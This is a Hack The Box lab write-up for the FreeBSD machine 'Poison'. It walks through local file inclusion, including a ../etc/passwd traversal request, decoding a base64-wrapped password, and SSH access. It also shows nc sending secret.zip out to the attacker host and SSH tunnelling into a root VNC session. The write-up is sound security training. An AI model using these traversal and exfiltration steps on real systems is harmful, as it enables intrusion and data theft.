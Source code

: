 ```yaml
---
permalink: /posts/HTB/Poison
title:  "HTB Poison"
author: Luc Kolen
description: "Poison is a medium Linux machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-{Difficulty}
  - Linux
  - Local file inclusion
  - VNC
---
```

# 10.10.10.84 - Poison

- [10.10.10.84 - Poison](#10101084---poison)
  - [Open ports](#open-ports)
  - [HTTP](#http)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/HTB/Poison$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.84
```

|Port|Service|Version
|---|---|---|
22/tcp|ssh|OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp|http|Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)

## HTTP

`http://10.10.10.84/` shows a page where we can enter what local script we want to test.

```http
GET /browse.php?file=listfiles.php HTTP/1.1
Host: 10.10.10.84

Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

```http
GET /browse.php?file=pwdbackup.txt HTTP/1.1
Host: 10.10.10.84

This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

```bash
luc@kali:~/HTB/Poison$ cat pwdbackup.txt | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
Charix!2#4%6&8(0
```

We now have a password, but no usernames yet.

```http
GET /browse.php?file=../../../../../etc/passwd HTTP/1.1
Host: 10.10.10.84

# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
...
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

```bash
luc@kali:~/HTB/Poison$ ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.84' (ECDSA) to the list of known hosts.
Password for charix@Poison: Charix!2#4%6&8(0
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
You can look through a file in a nice text-based interface by typing

        less filename
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
charix@Poison:~ % cat user.txt
eaacdfb2************************
```

## Privilege escalation

```bash
charix@Poison:~ % pwd
/home/charix
charix@Poison:~ % ls
secret.zip      user.txt
charix@Poison:~ % md5 secret.zip
MD5 (secret.zip) = f558c7adb5695c92306361581c915dea
charix@Poison:~ % nc 10.10.14.9 443 < secret.zip
```

```bash
luc@kali:~/HTB/Poison$ sudo nc -lnvp 443 > secret.zip
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:27865.
luc@kali:~/HTB/Poison$ md5sum secret.zip
f558c7adb5695c92306361581c915dea  secret.zip
luc@kali:~/HTB/Poison$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
luc@kali:~/HTB/Poison$ hexdump secret
0000000 a8bd 7c5b 96d5 217a
0000008
```

We can transfer `secret.zip` to our machine and use `Charix!2#4%6&8(0` we found earlier to decrypt it, but the output doesn't look very useful for now.

```bash
charix@Poison:~ % ps aux | grep root
...
root   529   0.0  0.9  23620  8872 v0- I    13:23     0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -l
...
charix@Poison:~ % netstat -an -p tcp
...
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

We can see VNC running on ports 5801 and 5901.

```bash
charix@Poison:~ %
charix@Poison:~ % ~C
ssh> -D 8081
Forwarding port.
```

```bash
luc@kali:~/HTB/Poison$ sudo nano /etc/proxychains.conf
...
socks4 127.0.0.1 8081
luc@kali:~/HTB/Poison$ proxychains vncviewer 127.0.0.1:5901 -passwd secret
```

```bash
root@Poison:~ # id
uid=0(root) gid=0(whell) groups=0(whell),5(operator)
root@Poison:~ # cat /root/root.txt
716d04b1************************
```

We connect via a SSH tunnel on port 8081 and we can use the `secret` file as the password. This gets us into the server via a VNC session and we can enter commands in a open root terminal.

## TL;DR

- LFI shows credentials
- VNC password in zip file with same password as user
